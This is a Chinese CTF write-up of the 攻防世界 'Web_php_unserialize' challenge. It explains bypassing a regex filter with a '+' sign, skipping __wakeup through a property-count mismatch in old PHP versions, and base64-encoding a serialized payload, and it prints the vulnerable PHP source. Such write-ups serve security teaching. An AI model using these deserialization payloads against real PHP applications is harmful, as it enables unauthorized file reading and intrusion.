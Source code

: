 

## Web_php_unserialize【攻防世界】

正则表达式绕过：`preg_match('/[oc]:\d+:/i', $var)`

该正则表达式会匹配 c:123 0:32 o:234 等形式的子字符串，但是可以在描述**对象名称长度**的**数字前面加上+符号**，能绕过正则表达式，还能被**正常的反序列化**。

```
O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
```

可以改为：

```
O:+4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
```



__wakeup 函数是魔术用法会在对象反序列化时自动执行。

PHP5 < 5.6.25， PHP7 < 7.0.10 的版本存在wakeup的漏洞。

当要被反序列化的字符串中，描述的对象属性的个数，与php中对象**属性的数量不同时**，__wakup**不会被执行**。

```
O:+4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
```

替换为

```
O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}
```



私有属性会在属性名称的开始和末尾添加"%00"，当前php程序也会对字符串进行base64解码，为了防止在复制字符串的时候漏掉"%00"，在构建php字符串后，进行base64编码后在输出。



```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
